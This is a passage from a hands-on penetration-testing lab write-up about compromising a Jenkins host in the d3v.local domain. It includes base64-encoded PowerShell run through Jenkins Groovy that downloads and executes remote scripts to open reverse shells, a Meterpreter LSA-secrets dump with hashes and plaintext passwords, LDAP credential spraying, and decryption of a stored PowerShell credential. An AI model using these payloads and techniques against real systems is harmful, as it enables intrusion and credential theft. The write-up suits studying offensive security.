

Seems like we have some interesting files?



is this the Adminpassword?

But then i decided I really need to get a Revshell so i wil take inspiration from this;



And this actually worked quite right!

```
def process = "cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOQAuADIAMAAuADEAMwA6ADgAMAA4ADAALwBqAGUAbgBrAGkAbgBzAC4AcABzADEAJwApAAoA".execute()
println "Found text ${process.text}"
```



The only issue was to use port 80/443 and not the 8080.

&nbsp;

# PE further

Now I noticed that there are some informations about ansible in a root folder?

```
PS C:\notes> ls


    Directory: C:\notes


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/7/2020   7:53 AM            280 ansible_aes.key
-a----         1/7/2020   7:53 AM            278 ansible_passwd.txt
-a----        2/10/2020   5:36 PM            351 Dev_Notes.txt


PS C:\notes>
```

This seems again a  PSCredentials saved via keys!

&nbsp;

# Attempt nr.#2

Yesterday the LAB was unstable so I am tryiong now again and this time I will use Invoke-ConPTYShell to get a fully interactive shell via this machine instead.

```
def process = "cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AOQAuADIAMAAuADEAMwA6ADgAMAA4ADAALwBJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAuAHAAcwAxACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApADsAIABJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgADEAMAAuADEAMAAuADEANAAuADMAIAA4ADAACgA=".execute()
println "Found text ${process.text}"
```

This is basically a B64 encoded command of this stuff:

But now we can read about a new VHOST of ansible?

```
-a----        2/10/2020   5:36 PM            351 Dev_Notes.txt                                                         


1. Configure Hashoicorp Vault with username and password authentication (done)
2. Store ansible playbook secret key into Hashicorp Vault  (done)
3. Figure out how to communicate with vault.cyber.local API using the AES and passwd with username ansible
3a. Extract ansible playbook secret via API and decrypt ansible playbooks on ansible.cyber.local
c : The term 'c' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
```

Actually 2 one is **vault** and the other is **ansible.cyber.local**.

And we have a password saved in Powershell:

```
76492d1116743f0423413b16050a5345MgB8AEwAbgBiADIAaQBCAEIAMgBTADkARQBVAEsASwBhAFkAcQBpAHIAawBLAGcAPQA9AHwAYQBjAGIAMQA5ADQANAA2AGIAMABhADEANgAwAGUAMgBhADUAMwBkADYANQA4ADQAYwBmADkAZAA3AGQAMQAyADAANQAxADQAMwAwADcAOQBjADYAZQAyADEAYgBlADUAOQA3ADgAMgAyAGUAYwA0ADgAMwA4AGEAYwA1AGMAZgA=
```

And the aes key used to encrypt it:

```
C:\notes> cat ansible_aes.key
49
222
253
86
26
137
92
43
29
200
17
203
88
97
39
38
60
119
46
44
219
179
13
194
191
199
78
10
4
40
87
159
```

And now we can see the both of the IPs:

```
PS C:\notes> ping ansible.cyber.local
Pinging ansible.cyber.local [10.9.30.11] with 32 bytes of data:
Reply from 10.9.30.11: bytes=32 time=1ms TTL=64
Reply from 10.9.30.11: bytes=32 time<1ms TTL=64
Reply from 10.9.30.11: bytes=32 time<1ms TTL=64
Reply from 10.9.30.11: bytes=32 time<1ms TTL=64


PS C:\notes> ping vault.cyber.local
Pinging vault.cyber.local [10.9.30.13] with 32 bytes of data:
Reply from 10.9.30.13: bytes=32 time=1ms TTL=128
Reply from 10.9.30.13: bytes=32 time<1ms TTL=128
Reply from 10.9.30.13: bytes=32 time<1ms TTL=128
Reply from 10.9.30.13: bytes=32 time<1ms TTL=128
```

&nbsp;

# POST Exploitation

Now I had big issues to get the NTSYSTEM from my crappy shell session, so  I used Metasploit this time and evelated via SHARPEFS potato technique.



And now I will try to get the hashdump via kiwi(aka mimikatz)

```
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : D3WEBJW
SysKey : bb344aa90fb56d11f4284362baf2553d

Local name : D3WEBJW ( S-1-5-21-2028822877-1996171925-2606335070 )
Domain name : D3V ( S-1-5-21-1741135793-2392241712-4132009386 )
Domain FQDN : d3v.local

Policy subsystem is : 1.14
LSA Key(s) : 1, default {8214eb9d-960b-e648-1918-f91594d76e7b}
  [00] {8214eb9d-960b-e648-1918-f91594d76e7b} 7086f64c6cbce6dd5db4ecc333e8f41e917cbfb0a4aa6df7c7c5258ae899dbea

Secret  : $MACHINE.ACC
cur/text: +pndu'p&Iyy5z1=V<JN>]!v"[d&F$w.B5"=XL;);8tmk^:=LGtwE ai\i.1q%LKKcBQKK#m'^xLY$,Xh<pxOP<:=%UM(;x4.\pW!u;^euB>]</IR9!:3VZwA
    NTLM:3d17b9480e669f48e38940fbca310acb
    SHA1:1b36b428210117dd3230444de3c19a5b65d759ac
old/text: +pndu'p&Iyy5z1=V<JN>]!v"[d&F$w.B5"=XL;);8tmk^:=LGtwE ai\i.1q%LKKcBQKK#m'^xLY$,Xh<pxOP<:=%UM(;x4.\pW!u;^euB>]</IR9!:3VZwA
    NTLM:3d17b9480e669f48e38940fbca310acb
    SHA1:1b36b428210117dd3230444de3c19a5b65d759ac

Secret  : DefaultPassword
cur/text: xuu8ZivauM
old/text: xuu8ZivauM

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 97 e9 15 98 8b e4 18 f2 53 04 8a a7 d3 13 97 82 f3 c1 9b 6d a3 fd 25 3d df 08 95 f1 12 cc 5e 7e c3 87 83 12 43 74 10 81 
    full: 97e915988be418f253048aa7d3139782f3c19b6da3fd253ddf0895f112cc5e7ec387831243741081
    m/u : 97e915988be418f253048aa7d3139782f3c19b6d / a3fd253ddf0895f112cc5e7ec387831243741081
old/hex : 01 00 00 00 0c 00 62 f2 11 9b c5 7d 9f 23 74 f3 34 09 e2 ce 39 1d dc 9f a8 d0 d0 0a b7 72 2e 4a b7 d5 94 23 e0 ea 99 03 29 6b ed 63 
    full: 0c0062f2119bc57d9f2374f33409e2ce391ddc9fa8d0d00ab7722e4ab7d59423e0ea9903296bed63
    m/u : 0c0062f2119bc57d9f2374f33409e2ce391ddc9f / a8d0d00ab7722e4ab7d59423e0ea9903296bed63

Secret  : NL$KM
cur/hex : d8 33 7f 7b a3 2c de 15 cf b4 9a 10 37 3f 6b a9 4e 49 46 70 57 27 e8 1e e8 a9 11 a8 1d ef 19 0c cc 43 92 f3 9c c7 51 1a 06 56 6d 60 da 73 22 74 81 ec b4 9f 69 fc 6a 8a c8 52 e6 f5 03 56 0d 59 
old/hex : d8 33 7f 7b a3 2c de 15 cf b4 9a 10 37 3f 6b a9 4e 49 46 70 57 27 e8 1e e8 a9 11 a8 1d ef 19 0c cc 43 92 f3 9c c7 51 1a 06 56 6d 60 da 73 22 74 81 ec b4 9f 69 fc 6a 8a c8 52 e6 f5 03 56 0d 59 

Secret  : _SC_Jenkins / service 'Jenkins' with username : d3v.local\svc_jenkins
cur/text: iT1iviedo1


meterpreter >
```

I see 2 credentials, one is the svc_jenkins and the other still unkown.

Let

Let's check those...



And seems like it is true for svc_jenkins. And the other seems belonging to James.Weeks:

```
LDAP        10.9.30.10      389    D3DC             [-] d3v.local\Scott.Rogers:xuu8ZivauM 
LDAP        10.9.30.10      389    D3DC             [-] d3v.local\Kiara.Owens:xuu8ZivauM 
LDAP        10.9.30.10      389    D3DC             [-] d3v.local\James.Barajas:xuu8ZivauM 
LDAP        10.9.30.10      389    D3DC             [+] d3v.local\James.Weeks:xuu8ZivauM
```

We can perform the same task to decrypt the ansible password as well:

```
──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $aesKey = Get-Content "./ansible_aes.key"                                                              
┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $encrypted = Get-Content "./ansible_passwd.txt"                                                        
┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $decryptedSecureString = ConvertTo-SecureString -String $encrypted -Key $aesKey                        

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $decryptedPlainText = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)                   
MethodException: Cannot find an overload for "PtrToStringUni" and the argument count: "1".

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($decryptedSecureString)

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $decryptedPlainText = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)                   

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> echo $decryptedPlainText
6daDjIU0UqEdvGI
```

And grab another flag:



I feel confident that we can move on so far!

&nbsp;